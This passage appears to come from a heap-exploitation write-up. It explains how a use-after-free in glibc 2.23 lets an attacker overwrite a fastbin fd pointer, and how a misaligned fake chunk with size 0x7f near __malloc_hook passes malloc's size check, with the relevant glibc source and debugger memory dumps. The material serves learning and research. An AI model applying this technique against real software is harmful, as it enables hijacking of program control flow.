 Knowing this, we can trick malloc. Given that we have a UAF vulnerability, we can overwrite this `fd` pointer with a pointer of our choosing. This pointer can be arbitrary, barring some restrictions, as shown by [this check](https://github.com/mistydemeo/super_nes_classic_edition_oss/blob/master/glibc-2.23/glibc-2.23/malloc/malloc.c#L3383) in `malloc.c`:
```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```

Basically, the pointer that we overwrite `fd` with must point to a memory region that "looks" like a chunk with a size that will fit in this specific fastbin. Otherwise, we will get the `"malloc(): memory corruption (fast)"` error.

To elaborate, the pointer must point to a memory region that looks like a chunk where the chunk size must be between 0x70 - 0x7f. Chunk C is a good example:
```c
0x5564e50e9190: 0x0000000000000068      0x0000000000000071 <- chunk C body chunksize
```

If we take a look at `__malloc_hook` in memory, we will see the following:
```c
gef➤  x/20gx 0x7f6c4122aae0
0x7f6c4122aae0 <_IO_wide_data_0+288>:   0x0000000000000000      0x0000000000000000 <- not valid (chunksize 0)
0x7f6c4122aaf0 <_IO_wide_data_0+304>:   0x00007f6c41229260      0x0000000000000000 <- not valid (chunksize 0)
0x7f6c4122ab00 <__memalign_hook>:       0x00007f6c40eebe20      0x00007f6c40eeba00 <- not valid (0x7f6c49eeba00 is too large!)
0x7f6c4122ab10 <__malloc_hook>: 0x0000000000000000      0x0000000000000000 <- not valid (chunksize 0)
0x7f6c4122ab20 <main_arena>:    0x0000000000000000      0x0000000000000000 <- not valid (chunksize 0)
...
```

We see that there isn't a valid memory region near `__malloc_hook`. However, note that the security check above does not ensure that the memory address is 16 byte aligned, so what happens if we instead view the memory region of `__malloc_hook - 0x30 + 0xd`?
```c
gef➤  x/20gx 0x7f6c4122ab10 - 0x30 + 0xd
0x7f6c4122aaed <_IO_wide_data_0+301>:   0x6c41229260000000      0x000000000000007f <- looks like a valid chunk! (chunksize 0x7f)
0x7f6c4122aafd: 0x0000000000000000      0x6c40eeba00000000
0x7f6c4122ab0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7f6c4122ab1d: 0x0000000000000000      0x0000000000000000
0x7f6c4122ab2d <main_arena+13>: 0x352e4f3160000000      0x0000000000000056
0x7f6c4122ab3d <main_arena+29>: 0x0000000000000000      0x0000000000000000
...
```
